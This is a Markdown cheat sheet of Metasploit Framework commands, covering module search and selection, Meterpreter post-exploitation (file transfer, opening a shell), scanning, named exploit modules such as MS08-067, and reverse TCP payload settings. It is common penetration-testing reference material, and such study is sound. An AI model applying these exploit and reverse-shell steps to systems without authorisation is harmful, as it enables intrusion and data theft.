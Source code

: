 # Metasploit Framework Cheat Sheet

## Basic Commands
- `msfconsole`: Start the Metasploit console.
- `search <keyword>`: Search for exploits or modules.
- `use <module>`: Select a module to use.
- `show options`: Display module options.
- `set <option> <value>`: Set a module option.
- `exploit`: Launch the exploit.
- `sessions -i <id>`: Interact with a session.

## Post Exploitation (Meterpreter)
- `sysinfo`: Display target system info.
- `getuid`: Display user info.
- `upload <file> <path>`: Upload a file to the target.
- `download <file>`: Download a file from the target.
- `shell`: Open a command shell on the target system.

## Scanning and Discovery
- `db_nmap <options>`: Use Nmap within Metasploit.
- `auxiliary/scanner/portscan/tcp`: Perform a TCP port scan.
- `auxiliary/scanner/http/http_version`: Detect the HTTP server version.

## Exploit Modules
- `exploit/windows/smb/ms08_067_netapi`: Exploit for the MS08-067 vulnerability.
- `exploit/multi/http/tomcat_mgr_deploy`: Exploit for Apache Tomcat Manager.

## Payloads
- `set PAYLOAD windows/meterpreter/reverse_tcp`: Set a reverse TCP payload.
- `set PAYLOAD linux/x86/meterpreter/reverse_tcp`: Set a reverse TCP payload for Linux.

## Database Management
- `db_status`: Check the status of the database.
- `hosts`: List all discovered hosts.
- `services`: List services detected during scans.

## Managing Sessions
- `sessions -l`: List all active sessions.
- `sessions -i <id>`: Interact with a specific session.
- `sessions -k <id>`: Kill a specific session.
- `sessions -K`: Kill all sessions.

## Additional Commands
- `resource <file.rc>`: Run commands from a resource file.
- `history`: Show command history.
- `save`: Save the current workspace.

---

